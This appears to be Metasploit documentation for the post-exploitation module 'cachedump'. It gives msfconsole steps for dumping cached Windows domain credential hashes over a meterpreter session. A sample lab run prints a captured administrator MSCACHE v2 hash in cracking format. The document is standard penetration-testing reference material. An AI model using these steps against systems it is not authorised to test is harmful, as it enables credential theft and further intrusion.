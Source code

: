 ## Vulnerable Application

This module uses the registry to extract the stored domain hashes that have been cached as a result of a GPO setting. The default setting on Windows is to store the last ten successful logins.

## Verification Steps
  1. Start `msfconsole`
  2. Get meterpreter session
  3. Do: `use post/windows/gather/cachedump`
  4. Do: `set SESSION <session id>`
  6. Do: `run`

## Options

  ```
  SESSION
  ```
  The session to run this module on.


## Scenarios

### A run on Windows 7 (6.1 Build 7601, Service Pack 1).

  ```
  [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.6:49184) at 2019-12-11 12:51:59 -0700

  msf > use post/windows/gather/cachedump
  msf post(windows/gather/cachedump) > set SESSION 1
    SESSION => 1
  msf post(windows/gather/cachedump) > run

    [*] Executing module against TEST-PC
    [*] Cached Credentials Setting: 10 - (Max is 50 and 0 disables, and 10 is default)
    [*] Obtaining boot key...
    [*] Obtaining Lsa key...
    [*] Vista or above system
    [*] Obtaining NL$KM...
    [*] Dumping cached credentials...
    [*] Hash are in MSCACHE_VISTA format. (mscash2)
    [+] MSCACHE v2 saved in: /root/.msf4/loot/20191211134214_default_192.168.1.6_mscache2.creds_626325.txt
    [*] John the Ripper format:
    # mscash2
    administrator:$DCC2$10240#administrator#89f253291a4b53a41c94057d644cbd1d::

    [*] Post module execution completed
  ```
